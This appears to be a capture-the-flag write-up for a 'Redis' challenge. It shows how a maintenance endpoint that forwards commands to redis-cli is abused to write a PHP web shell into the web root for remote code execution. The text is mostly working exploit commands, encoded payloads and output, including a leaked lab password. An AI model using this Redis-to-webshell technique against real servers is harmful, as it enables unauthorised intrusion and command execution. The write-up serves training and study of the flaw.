

# Redis
We need your help!!

The server stopped working, all that's left is the maintenance port.

To access it, run:

curl http://localhost/maintenance.php

We're pretty sure the bug is in the index page. Can you some


## Solution
The redis console in the kitchen has a vulnerability that allows to dump the contents of the databse to a file in the file system. To simplify the execution of payloads we can build a helper function as follows:
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```

This way we simply send the commands we want redis to execute with parameters separated by commas, to exploit the vulnerability we have to configure the database backup directory to the web directory and the database backup file to a `.php` file, save the database to a file and then call the new file from the web server to execute our code.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,1.php
cmd set,2,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Findex%2Ephp%22%29%3B%20%3F%3E
cmd set,3,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Frce%2Ephp%22%29%3B%20%3F%3E
Running: redis-cli --raw -a '<password censored>' 'set' '3' '<?php readfile("/var/www/html/maintenance.php"); ?>'
OK
cmd save
Running: redis-cli --raw -a '<password censored>' 'save'
OK
```

The php file will contain some REDIS database headers but those do not stop PHP from executing the rest of the code
```
curl localhost/1.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�Km�_used-mem�(
 aof-preamble��� �-<?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
�3<?php
$redis_password = "R3disp@ss";
if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
    die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncurl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cmd=mget,example1\n\n");
}
# Pull apart the command, escape it, and put it back together
$cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));
if(strpos($cmd, 'scan') !== false) {
  die("'scan' is not allowed");
}
if(strpos($cmd, 'requirepass') !== false) {
  die("'requirepass' is not allowed");
}
$cmd = "redis-cli --raw -a '$redis_password' $cmd";
echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";
$result = shell_exec($cmd);
echo $result;
?>
```

## Full RCE
We can achive upload a simple RCE php with the following sequence.
1. Load our helper function to simplify the exploitation
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```
2. Flush the database to avoid undesired content, configure redis to store out databse content into a php file and save the database.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,rce.php
cmd 'set,backup1,%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E'
cmd save
```
3. Call our file using `curl` to execute whatever command we want.
```
curl localhost/rce.php?cmd=ls --output -
```
Spaces have to be replaced with `+` or `%20` to succeed.
```
curl localhost/rce.php?cmd=ls%20-al --output -
```

